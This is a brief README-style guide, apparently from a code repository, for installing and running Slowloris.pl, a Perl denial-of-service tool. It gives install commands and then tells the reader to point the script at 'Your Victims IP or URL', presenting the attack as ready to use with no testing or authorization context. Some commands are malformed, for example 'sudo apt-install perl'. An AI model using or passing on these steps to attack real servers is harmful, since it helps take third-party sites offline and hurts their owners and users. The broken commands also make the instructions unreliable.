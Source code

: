 

   How to use Slowloris.pl
   
   Requirements:
   1. sudo apt-get update
   2. sudo apt-install perl
   3. sudo apt-get install libwww-mechanize-shell-perl
   4. sudo apt-get install perl-mechanize
   
   1.) Download Slowloris.pl
   2.) Open your Terminal
   3.) Type = cd /ThePathYouHaveSlowloris.pl
   4.) Type = ./Slowloris.pl
   5.) Type = perl Slowloris.pl -dns (Your Victims IP or URL) -options
   
     And You're Ready to go
        
Fabian Schacher
